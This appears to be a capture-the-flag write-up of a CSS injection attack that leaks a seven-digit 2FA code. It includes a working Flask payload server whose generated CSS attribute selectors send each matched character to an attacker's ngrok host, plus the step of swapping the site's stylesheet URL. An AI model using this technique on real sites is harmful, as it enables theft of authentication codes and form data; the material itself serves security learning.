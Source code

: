 After some trails with **tag names** using **responsive nature of css** (background image), tried **input** tag. It responded with **7 requests**.
Now tried to brute force the **input tag's name **. Upto `code_` there comes only **one request**.
After that it responded with **1 to 7 values**. then got to understand the **pattern of input name** like code_1, code_2, code_3, code_4, code_5, code_6, code_7.
We need to **leak all those seven codes**. As there is **each input for each code**. it became quite simple for bruteforce.
## Final payload server using ngrok.
```python
from flask import *
from flask_cors import CORS, cross_origin
from requests import *

app = Flask(__name__,static_folder='')
cors = CORS(app)
app.config['CORS_HEADERS'] = 'Content-Type'

@cross_origin()
@app.route("/css/final.css")
def css_file():
	return app.send_static_file("check.css")

record_file="/tmp/record_%s.txt"

@app.route("/recieve")
@cross_origin()
def recieve():
	char = request.args.get('char') ; place = request.args.get('place')
	print(place,' - ',char)
	return "Done"

def set_payload(payload):
	final = open("check.css",'a+'); string =""
	PP = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!#$%&'()*+,-./:;<=>?@[]^_`{|}~ "
	for p in PP:
		string += str(payload).replace("$$",p).replace("||",str(ord(p)))
	final.write(string)
	final.close()

ngrok_url = "https://87dc2cffc13b.ngrok.io"
payload = '''
input[name^="code_!!"][value="$$"] {
	background-image:url("%s/recieve?value=||&char=$$&place=!!");
}
'''%ngrok_url

if __name__ == '__main__':
	with open("check.css",'w') as F: pass
	for i in range(1,8):
		temp = payload.replace('!!',str(i))
		set_payload(temp)
	app.run()
```
Just **intercept** the request of **send_challenge (send 2FA)** and **change the app_style** to https://87dc2cffc13b.ngrok.io/css/final.css.
From **python server log** we can get the **7 digits**, we need to **combine and enter on the site**. we have enough time for this [**2 min**]
**Boom : )**

